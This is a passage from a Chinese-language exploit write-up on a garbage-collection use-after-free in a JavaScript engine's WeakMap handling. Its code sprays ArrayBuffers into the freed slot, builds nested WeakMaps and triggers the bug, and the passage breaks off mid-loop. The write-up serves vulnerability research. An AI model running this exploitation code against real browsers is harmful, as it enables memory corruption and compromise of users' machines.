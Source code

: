 ``` javascript
	
	...
```

接下来申请若干 `ArrayBuffer`，触发漏洞释放掉 `arr2`，触发漏洞的 GC 同时也会把 `ArrayBuffe` 移动到 `arr2` 中元素所在的 0x40 空洞的位置。

```javascript
	...
	for (let i = 0; i < bufs.length; ++i) {
		bufs[i] = new ArrayBuffer(8);
	}

	PreventModifyArr = new Array(100);
	
	let hk = hideWeakMap(map, level, initKey);
	let hiddenMap = map.get(hk);
	let map7 = new WeakMap();
	let map8 = new WeakMap();
	let k5 = {k5 : 5};
	let map5 = new WeakMap();
	let k7 = {k7 : 7};
	let k9 = {k9 : 9};
	let k8 = {k8 : 8};

	
	map.set(k7, map7);
	hiddenMap.set(k5, map5);
	hiddenMap.set(hk, k5);
	map5.set(hk, k7);
	
	map7.set(k8, map8);
	map7.set(k7, k8);
	
	map8.set(k8, k9);
	
	map.set(k9, arr2);
	arr2_before = null;
	arr2 = null;
}
```

实际测是发现 `JSWeakMap` 可能会被移动到关键的数据结构中，影响漏洞利用，所以我又加了一个 `PreventModifyArr`，期望可以通过一个较大内存块的分析，让页面末尾的大块空闲内存成为线性分配区，这样之后的其他对象都会被填入这个非常大的线性分配区，而不会影响页面前端的小对象。


```javascript
async function main() {
	setUpWeakMap(map1);

	// 触发漏洞
	TrigerGc();
	
	try {
		let hiddenKey = getHiddenKey(map1, level, initKey);
		let hiddenMap = map1.get(hiddenKey);
		let k7 = hiddenMap.get(hiddenMap.get(hiddenKey)).get(hiddenKey);
		let k8 = map1.get(k7).get(k7);
		let m8 = map1.get(k7).get(k8);
		let arr_free_uaf = map1.get(m8.get(k8));
		
		let arrbuf_as_arr = null;
		try {
			for (let i = arr_free_uaf.length; i > 0; --i) {
				if (!arr_free_uaf[i])
					continue;
			
```